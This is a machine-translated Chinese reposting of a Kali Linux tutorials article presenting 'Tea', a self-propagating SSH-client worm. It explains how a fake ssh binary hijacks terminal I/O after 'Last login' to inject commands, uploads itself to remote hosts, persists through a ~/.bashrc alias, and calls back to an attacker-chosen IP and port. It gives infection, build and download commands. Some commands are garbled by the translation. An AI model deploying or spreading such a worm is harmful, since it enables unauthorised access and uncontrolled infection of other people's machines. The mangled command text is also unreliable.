


# tea:SSH-客户端蠕虫

> 原文：<https://kalilinuxtutorials.com/tea-ssh-client-worm/>

**Tea** 是一个用 tas 框架制作的 ssh-client 蠕虫。

它是如何工作的？

这是一个 fakessh 客户端，它操纵 tty 输入/输出来执行任意命令，并通过 ssh 连接上传自身。

为了正常工作，远程机器需要:

*   登录时显示“上次登录”消息。
*   Dd 和 stty
*   使用 bash 作为默认 shell 的目标用户。
*   运行 fakessh 二进制文件的能力。
*   可写~/。bashrc
*   感染本地机器:

**mkdir ~/。sshworm
cp ssh ~/。sshworm
别名 ssh='~/。sshworm/ssh'**

第一次执行 fakessh 时，它不会显示任何内容，将执行`**post-install.c**`中的代码，并将字符串`**alias ssh="~/.sshworm/ssh"**`写入~/。bashrc:

$ ssh
$ ssh
用法:ssh[-46 aacfg gkkmnnqsttvvxyy][-B bind _ interface]
[-B bind _ address][-c cipher _ spec][-D[bind _ address:]port]
[-E log _ file][-E escape _ char][-F config file][-I pkcs11]
[-I identity _ file][-J[user @]host[:port]][-L address]【T5

**传遍世界**

现在只要连接到某个 ssh 服务器，满足程序运行的条件，机器就会被感染，机器也会通过它被访问，等等。

**也读作-[bet with:基于 Chrome Devtools 网络面板的 Web 调试代理](https://kalilinuxtutorials.com/betwixt/)**

**tty 操作**:

当执行 fakessh 时，它将等待字符串“Last login”来启动 I/O 操作(output-hooks.c)，当收到“Last login”时，它将发送一些任意命令(inject-cmd.c)并将等待命令结果(output-hooks.c)，如果文件~/。sshworm/ssh 在远程机器上不存在，那么蠕虫会上传自己(upload.c)。

更多细节见 output-hooks.c。

**卸载**:

**$ rm -rf ~/。sshworm
$ perl -i -pe 的；别名 ssh="~/。ssh worm/ssh "；；g' ~/。bashrc
$ unalias ssh**

**编译**

我们推荐使用 musl-libc，或者其他不是 glibc 的 libc，使用 glibc 编译的二进制文件比使用 musl-libc 编译的二进制文件大 17 倍。

**获取源代码:**

**$ git 克隆–递归子模块 https://github.com/hc0d3r/tea**

**构建选项**:

| 名字 | 描述 |
| --- | --- |
| 互联网协议(Internet Protocol) | 要连接的远程 IPv4 |
| 港口 | 要连接的远程端口 |

**举例**:

**$ make CC = musl-gcc IP = my-IP v4 PORT = 1234**

**服务器**

我们制作了一个简单的服务器来处理在执行 post-install.c 中的代码时接收到的连接。

服务器机制非常简单，当一个新的连接建立时，它执行一个新的命令，并通过命令行传递连接文件描述符，因此执行的程序将能够处理连接。

**编译**

**$ cd 服务器
$ make
cc-Wall-Wextra-O3-c net . c-o net . o
cc-Wall-Wextra-O3-c replace . c-o
cc-Wall-Wextra-O3-c term . c-o term . o
cc-Wall-Wextra-O3-c main . o
cc-Wall-Wextra-O3-o server net . o replace . o term . o main . o**

**演示**

[**Download**](https://github.com/hc0d3r/tea)